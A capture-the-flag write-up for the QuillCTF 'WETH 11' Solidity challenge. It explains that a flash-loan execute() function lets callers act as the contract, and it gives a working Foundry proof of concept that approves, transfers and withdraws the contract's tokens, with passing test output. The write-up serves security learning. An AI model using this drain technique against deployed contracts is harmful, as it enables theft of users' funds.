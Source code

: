 # QuillCTF : WETH 11

## Objective of CTF

We have fixed WETH10 and now have introduced its new version WETH11.
But along the way, bob made a mistake and transferred its tokens to the wrong address.
Can you help bob recover his 10 ether?

### Contract code
```solidity
pragma solidity ^0.8.0;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {ReentrancyGuard} from "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import {Address} from "@openzeppelin/contracts/utils/Address.sol";

// The Angel Di Maria Wrapped Ether
contract WETH11 is ERC20("Angel Di Maria Wrapped Ether", "WETH11"), ReentrancyGuard {
    receive() external payable {
        deposit();
    }

    function _burnAll() internal {
        _burn(msg.sender, balanceOf(msg.sender));
    }

    function deposit() public payable nonReentrant {
        _mint(msg.sender, msg.value);
    }

    function withdraw(uint256 wad) external nonReentrant {
        _burn(msg.sender, wad);
        Address.sendValue(payable(msg.sender), wad);
       
    }

    function withdrawAll() external nonReentrant {
        uint256 balance = balanceOf(msg.sender);
        _burnAll();
        Address.sendValue(payable(msg.sender), balance);
        
    }

    /// @notice Request a flash loan in ETH
    function execute(address receiver, uint256 amount, bytes calldata data) external nonReentrant {
        uint256 prevBalance = address(this).balance;
        Address.functionCallWithValue(receiver, data, amount);

        require(address(this).balance >= prevBalance, "flash loan not returned");
    }
}
```

### Foundry setup
```solidity
// SPDX-License-Identifier: Manija
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "@openzeppelin/contracts/interfaces/IERC20.sol";

import "../src/WETH11.sol";

contract Weth11Test is Test {
    WETH11 public weth;
    address owner;
    address bob;

    function setUp() public {
        weth = new WETH11();
        bob = makeAddr("bob");

        vm.deal(address(bob), 10 ether);
        vm.startPrank(bob);
        weth.deposit{value: 10 ether}();
        weth.transfer(address(weth), 10 ether);
        vm.stopPrank();
    }

    function testHack() public {
        assertEq(
            weth.balanceOf(address(weth)),
            10 ether,
            "weth contract should have 10 ether"
        );

        vm.startPrank(bob);

        // hack time!

        vm.stopPrank();

        assertEq(address(weth).balance, 0, "empty weth contract");
        assertEq(
            weth.balanceOf(address(weth)),
            0,
            "empty weth on weth contract"
        );

        assertEq(
            bob.balance,
            10 ether,
            "player should recover initial 10 ethers"
        );
    }
}
```

This challenge has fixed the bug on `withdrawAll()`, by burning all token first before sending ether back

However the bug on `execute()` has not been fixed, which allow us to make transaction on behalf of the WETH11 contract, such as approving ourselves to transfer the contract's token away

On the foundry setup, after bob has deposited 10 ether, he transfered all of his token to the WETH11 contract, so WETH11 contract owns 10 ether of WETH11 token

We can use `execute()` to approve ourselves to transfer all the token away, then just use `transferFrom()` to transfer the token from WETH11 to us, then just withdraw all of them to get ether

## Proof of concept

### Foundry test

```solidity
// SPDX-License-Identifier: Manija
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "openzeppelin-contracts/interfaces/IERC20.sol";

import "../src/WETH11.sol";

contract Weth11Test is Test {
    WETH11 public weth;
    address owner;
    address bob;
    
    function setUp() public {
        weth = new WETH11();
        bob = makeAddr("bob");

        vm.deal(address(bob), 10 ether);
        vm.startPrank(bob);
        weth.deposit{value: 10 ether}();
        weth.transfer(address(weth), 10 ether);
        vm.stopPrank();
    }

    function testHack() public {
        assertEq(
            weth.balanceOf(address(weth)),
            10 ether,
            "weth contract should have 10 ether"
        );

        vm.startPrank(bob);

        // hack time!
        weth.execute(address(weth), 0, abi.encodeWithSelector(ERC20.approve.selector, address(bob), type(uint256).max));
        weth.transferFrom(address(weth), address(bob), weth.balanceOf(address(weth)));
        weth.withdrawAll();

        vm.stopPrank();

        assertEq(address(weth).balance, 0, "empty weth contract");
        assertEq(
            weth.balanceOf(address(weth)),
            0,
            "empty weth on weth contract"
        );

        assertEq(
            bob.balance,
            10 ether,
            "player should recover initial 10 ethers"
        );
    }
}
```

### Foundry test output

```
# forge test --match-path test/WETH11.t.sol 
[⠰] Compiling...
No files changed, compilation skipped

Running 1 test for test/WETH11.t.sol:Weth11Test
[PASS] testHack() (gas: 92788)
Test result: ok. 1 passed; 0 failed; finished in 983.04µs
```